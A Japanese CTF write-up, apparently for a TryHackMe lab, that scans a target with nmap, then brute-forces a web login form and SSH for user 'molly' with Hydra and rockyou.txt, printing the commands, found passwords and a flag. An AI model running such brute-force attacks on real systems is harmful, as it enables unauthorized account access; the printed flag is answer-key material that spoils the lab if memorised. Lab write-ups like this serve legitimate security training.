









┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ nmap 10.49.128.148
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-05 13:10 +0900
Nmap scan report for 10.49.128.148
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 2.78 secondshttpを見てみる

ipアドレスのみ入力したところ
/loginのページにリダイレクトし、ログインフォームが現れた
ここではまず典型的なクレデンシャルの入力を試す

admin:admin, guest:guest, user:user, ubuntu:ubuntu, kali:kaliなどを試したが上記のようにYour username or password is incorrect.のエラーが出た
ここでTryHackMeの問題文をよく見てみるとmollyというユーザーネームが与えられていた
これを使ってブルートフォースを実施する
hydraは次のコマンドで実施する

ブラウザを使ったログイン試行から、ログイン失敗時に返ってくる文字列が判明しているため失敗条件を
F=incorrectで指定できる成功条件の指定には
S=を用いる-t 64のオプションも追加して並列スレッドをデフォルトの4倍にする
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.49.128.148 http-post-form "/login:user=^USER^&pass=^PASS^:F=incorrect" -t 64
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-06-05 13:22:18
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://10.49.128.148:80/login:user=^USER^&pass=^PASS^:F=incorrect
[STATUS] 3289.00 tries/min, 3289 tries in 00:01h, 14341110 to do in 72:41h, 64 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.3000トライほどしたが見つからない
時間がかかっている

ヒントを見たところ30パスワード以上試して見つからなかったらミスをしているとのこと
ウェブページのソースを見る

ログインフォームは具体的には以下の四角部分である

<form> </form>はHTMLで入力欄のまとまりを定義するタグ
このタグの間に置かれた<input>などの値が送信時にまとめてサーバーに送られる
actionは送信先、methodは送信方法を表す
このコードでは送信先は/loginで送信方法はpostであることがわかる
<button>についてはここではtype="submit"が定義されているのでinputなどで入力された情報を送信する引き金の役割を果たしている
つぎに<input>について見る
<input type="text" name="username" class="form-control" placeholder="Username" required autofocus>
<input type="password" name="password" class="form-control" placeholder="Password" required>まずtypeで入力欄の種類を定義する。
textやpasswordの他にはemail, number, url, checkboxなど多数。
passwordのとき入力文字が伏せ字になる
nameはこの入力データを飛ばすときの変数名の役割を果たす
classはCSSの見た目指定で、送信には無関係
placeholderはフォームに文字が入力されていないときに薄く表示される文字列
requiredは空データをエラーとする制約
autofocusはページ表示時に自動でこのフォームにカーソルを当てるオプション
なので先ほどhydraで
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.49.128.148 http-post-form "/login:user=^USER^&pass=^PASS^:F=incorrect" -t 64を実行したがこれはname属性を読み違えている
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.49.128.148 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -t 64このように修正してやればよい
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.49.191.181 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect." -t 64 -I
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-06-05 14:37:39
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://10.49.191.181:80/login:username=^USER^&password=^PASS^:F=incorrect.
[80][http-post-form] host: 10.49.191.181 login: molly password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-06-05 14:37:43とすればmolly:sunshineを得られる

ログイン結果としてフラグを得た

2つ目のフラグも同様に試す
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.49.191.181 -t 4SSHの場合には上記のようなコマンドを用いる
-t 4とスレッド数を4に減らしているが（デフォルトは16）、SSH側の同時接続制限で接続拒否を回避するためである
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.49.191.181 -t 4
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-06-05 14:40:25
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.49.191.181:22/
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ hydra -R
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[INFORMATION] reading restore file ./hydra.restore
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-06-05 14:40:46
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.49.191.181:22/
[22][ssh] host: 10.49.191.181 login: molly password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-06-05 14:41:10butterflyが得られた
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ ssh molly@10.49.191.181
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
molly@10.49.191.181's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-1083-aws x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/pro
System information as of Fri 05 Jun 2026 05:43:22 AM UTC
System load: 0.08 Processes: 109
Usage of /: 18.3% of 14.47GB Users logged in: 0
Memory usage: 20% IPv4 address for ens5: 10.49.191.181
Swap usage: 0%
Expanded Security Maintenance for Applications is not enabled.
0 updates can be applied immediately.
7 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Last login: Tue Dec 17 14:37:49 2019 from 10.8.11.98
molly@ip-10-49-191-181:~$ ls
flag2.txt
molly@ip-10-49-191-181:~$ cat flag2.txt
THM{c8eeb0468febbadea859baeb33b2541b}
molly@ip-10-49-191-181:~$おわり